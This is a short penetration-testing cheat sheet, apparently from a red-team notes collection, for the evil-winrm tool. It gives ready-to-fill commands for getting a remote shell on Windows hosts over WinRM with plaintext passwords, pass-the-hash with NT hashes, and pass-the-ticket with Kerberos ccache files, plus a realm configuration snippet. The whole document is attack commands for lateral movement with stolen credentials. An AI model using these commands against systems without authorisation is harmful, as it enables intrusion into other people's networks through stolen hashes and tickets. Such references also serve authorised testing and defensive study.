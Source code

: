 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p <password>
```
## domain account with creds
```bash
evil-winrm -i <ip> -u <user>@<domain> -p <password>
```

## local account pth
```bash
evil-winrm -i <ip> -u <user> -H <nt_hash>
```

## domain account pth
```bash
evil-winrm -i <ip> -u <user>@<domain> -H <nt_hash>
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
export KRB5CCNAME=<ccache> && evil-winrm -i <target_fqdn>  --realm <domain>
```